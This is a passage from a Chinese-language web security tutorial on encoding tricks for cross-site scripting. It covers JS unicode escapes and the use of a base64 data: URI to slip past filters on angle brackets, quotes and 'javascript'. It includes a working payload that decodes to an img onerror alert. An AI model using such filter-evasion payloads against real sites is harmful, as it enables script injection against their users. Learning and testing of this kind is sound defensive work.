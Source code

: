 下面再说说 jsunicode 编码：

他的表示方式是这样的：\uxxxx \uxxx < 转码后: /u003c

上图： ￼ ![enter image description here](img/img6_u31_jpg.jpg)

## 0x04 base64 编码

* * *

到目前为止 我遇到使用 base64 编码的情况 大多数是这样！

```
<a href="可控点">
<iframe src="可控点"> 
```

在这种情况下 如果过滤了`<> ' " javascript` 的话 那么要 xss 可以这样写 然后利用 base64 编码！

```
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a> 
```

这样当 test A 链接点击时 就会以 data 协议 页面以 html/text 的方式解析 编码为 base64 然后单点击 a 链接时 base64 的编码就被还原成我们原本的

```
<img src=x onerror=alert(1)> 
```

然后成功弹窗！

如下图：
